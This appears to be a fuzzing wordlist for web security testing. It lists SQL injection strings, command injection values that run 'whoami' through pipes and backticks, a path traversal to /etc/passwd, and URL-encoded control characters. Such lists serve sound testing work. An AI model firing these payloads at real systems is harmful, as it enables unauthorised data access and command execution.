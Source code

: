  
	
``
!
~!'"@#$%^&*()_+|\<>/
<b>
\'
\"
!'
| whoami
`whoami
|whoami
.././.././.././.././../etc/passwd
!@#$%%^#$%#$@#$%$$@#$%^^**(()
!@#0%^#0##018387@#0^^**(()
"
" or "a"="a
" or "x"="x
" or 0=0 #
" or 0=0 --
" or 1=1 or ""="
" or 1=1-- 
"' or 1 --'"
") or ("a"="a
') or ('1')=('1')#
') or ('1')=('1')-- s
%00
%01
%02
%03
%04
%05
%06
%07
%08
%09
%0a
%0b
%0c
%0d
%0e
%0f
%10
%11
%12
%13
%14
%15
%16
%17
%18
%19
%1a
%1b
%1c
%1d
%1e
%1f
%20
%21
%22
%23
%24